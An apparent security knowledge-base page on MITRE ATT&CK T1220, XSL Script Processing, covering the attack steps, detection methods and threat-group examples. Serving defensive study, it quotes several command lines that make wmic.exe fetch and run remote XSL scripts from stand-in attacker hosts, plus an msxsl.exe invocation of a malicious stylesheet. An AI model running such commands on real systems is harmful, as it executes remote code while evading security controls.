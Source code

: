 ```yaml
---
description: XSL Script Processing [T1220]
icon: lock
---
```


# XSL Script Processing

## Information

- Name: XSL Script Processing
- ID: T1220
- Tactics: [TA0005](../TA0005/TA0005.md)

## Introduction

XSL Script Processing (T1220) is a technique documented within the MITRE ATT\&CK framework that involves attackers abusing Extensible Stylesheet Language (XSL) files for malicious purposes. XSL files are typically used to transform XML documents into other formats. However, adversaries exploit the scripting capabilities within XSL files to execute arbitrary code, evade detection, and bypass security controls.

## Deep Dive Into Technique

XSL Script Processing leverages legitimate functionality provided by XSL processors, such as Microsoft's msxsl.exe, to execute arbitrary scripts embedded within XSL files. Attackers typically follow these steps:

1. **Preparation of Malicious XSL Files**:
   - Attackers craft malicious XSL files containing embedded scripts (e.g., JavaScript, VBScript).
   - These scripts often include commands designed to download additional payloads, execute binaries, or perform reconnaissance.
2. **Execution via Legitimate Utilities**:

   - Adversaries leverage trusted Windows utilities like msxsl.exe or wmic.exe to process XSL files and execute embedded scripts.
   - Example command using msxsl.exe:

     ```
     msxsl.exe payload.xml malicious.xsl
     ```

   - Example command using wmic.exe:

     ```
     wmic process get brief /format:"http://malicious-server.com/malicious.xsl"
     ```

3. **Bypassing Security Controls**:
   - XSL Script Processing is often overlooked by traditional antivirus and endpoint detection tools, as it leverages legitimate system utilities.
   - It can evade application whitelisting, since the utilities used (msxsl.exe, wmic.exe) are typically allowed and trusted.
4. **Persistence and Execution Mechanisms**:
   - Attackers may schedule tasks or scripts to regularly invoke malicious XSL files, ensuring persistence on compromised systems.
   - Scripts embedded in XSL files can be dynamically updated, providing attackers flexibility and adaptability in their attacks.

## When this Technique is Usually Used

XSL Script Processing is typically observed in various attack stages and scenarios, including:

- **Initial Access and Execution**:
  - Attackers may utilize phishing emails or malicious attachments containing XSL files.
  - Malicious documents or scripts may invoke XSL transformations to execute embedded payloads.
- **Defense Evasion**:
  - Attackers commonly use this technique to bypass application whitelisting, antivirus detection, and endpoint security solutions.
  - It leverages trusted utilities, making detection more challenging.
- **Persistence**:
  - Attackers may establish persistence by scheduling tasks or scripts that regularly execute malicious XSL files.
- **Command and Control (C2)**:
  - Malicious XSL scripts can establish communication channels with attacker-controlled servers, enabling remote command execution.

## How this Technique is Usually Detected

Detection of XSL Script Processing involves multiple methods and tools, including:

- **Monitoring Process Execution**:
  - Monitor execution of utilities such as `msxsl.exe` and `wmic.exe` for unusual or unexpected command-line arguments referencing remote locations or suspicious files.
- **Endpoint Detection and Response (EDR)**:
  - EDR solutions can detect anomalous behavior involving XSL transformations, particularly when scripts execute external payloads or communicate with remote servers.
- **File Integrity Monitoring (FIM)**:
  - FIM tools can detect unauthorized creation or modification of XSL files on endpoints.
- **Network Traffic Analysis**:
  - Inspect network traffic for unusual HTTP requests or downloads of XSL files from external or suspicious domains.
- **Specific Indicators of Compromise (IoCs)**:

  - Suspicious command-line invocations:

    ```
    msxsl.exe suspicious.xml malicious.xsl
    wmic.exe process get brief /format:"http://malicious-server.com/malicious.xsl"
    ```

  - Unusual XSL files containing embedded scripting languages (JavaScript, VBScript).
  - Unexpected outbound HTTP requests retrieving XSL files from unknown domains or IP addresses.

## Why it is Important to Detect This Technique

Early detection of XSL Script Processing is critical due to its potential impact on systems and networks, including:

- **Bypassing Security Controls**:
  - Attackers leverage legitimate system utilities, reducing the effectiveness of traditional antivirus and whitelisting solutions.
- **Execution of Arbitrary Code**:
  - Embedded scripts within XSL files can execute arbitrary commands, leading to unauthorized access, data exfiltration, or additional malware deployment.
- **Persistence and Long-term Compromise**:
  - Attackers using this technique can establish persistent footholds within networks, complicating remediation efforts.
- **Data Exfiltration and Espionage**:
  - Malicious scripts can facilitate data theft, intellectual property breaches, or espionage activities.
- **Increased Attack Surface**:
  - Overlooking this technique enables attackers to exploit trusted utilities, expanding their operational capabilities and reducing detection opportunities.

## Examples

Real-world examples of XSL Script Processing observed in attacks include:

- **FIN7 Attack Group**:

  - FIN7 (also known as Carbanak) utilized malicious XSL files processed by `wmic.exe` to execute payloads during targeted attacks against financial institutions.
  - Attackers used commands similar to:

    ```
    wmic os get /format:"https://attacker-controlled-domain.com/payload.xsl"
    ```

  - Impact: Data theft, financial fraud, and persistent network compromise.

- **APT32 (OceanLotus)**:
  - OceanLotus leveraged XSL script processing as part of their attack chain to evade detection and execute malicious payloads.
  - Malicious XSL files contained embedded JavaScript to download and execute backdoor payloads.
  - Impact: Espionage, data exfiltration, persistent access to sensitive networks.
- **Operation Cobalt Kitty**:
  - Attackers utilized XSL script processing as a method to execute payloads and maintain persistence within targeted organizations.
  - Malicious XSL scripts were used in conjunction with legitimate Windows utilities, complicating detection and remediation.
  - Impact: Persistent compromise, data theft, and espionage activities.

These examples highlight the versatility and effectiveness of XSL Script Processing as a technique used by sophisticated threat actors to achieve their objectives.
